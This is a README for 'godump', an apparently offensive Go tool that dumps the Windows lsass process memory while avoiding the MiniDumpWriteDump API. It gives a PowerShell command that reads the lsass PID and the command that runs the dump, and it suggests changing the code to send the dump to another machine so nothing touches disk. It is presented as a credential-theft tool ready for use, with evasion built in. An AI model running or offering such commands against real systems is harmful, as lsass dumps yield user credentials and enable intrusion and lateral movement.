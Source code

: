 # godump

GoDump.exe allows to dump the lsass process without dbghelp!MinidumpWriteDump Api. If you don't want to write file to disk, you can edit the code for transfer to other machine.
#####
GoDump.exe cannot bypass PPL protection in the system


## Usage

First, please get current PID of lsass.exe 

```
Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" -Name "LsaPid" | ft -Property LsaPid
```

```
.\godump.exe <LSASS_PID>

Ex: godump.exe 696
```
